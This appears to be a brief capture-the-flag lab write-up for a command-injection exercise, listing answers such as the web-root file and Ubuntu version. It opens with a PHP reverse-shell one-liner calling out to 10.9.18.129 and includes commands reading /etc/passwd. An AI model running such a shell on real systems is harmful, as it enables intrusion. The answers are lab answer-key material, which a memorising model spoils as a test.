 # [Severity 1] Command Injection Practical

```
php -r '$sock=fsockopen("10.9.18.129",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Questions
1. What strange text file is in the website root directory?
```
drpepper.txt
```

2. How many non-root/non-service/non-daemon users are there?
```
0
```

3. What user is this app running as?
```
www-data
```

4. What is the user's shell set as?
```
cat /etc/passwd
/usr/sbin/nologin
```

5. What version of Ubuntu is running?
```
lsb_release -a
18.04.4
```

6. Print out the MOTD.  What favorite beverage is shown?
```
find / -name 00-header
cat /etc/update-motd.d/00-header
DR PEPPER
```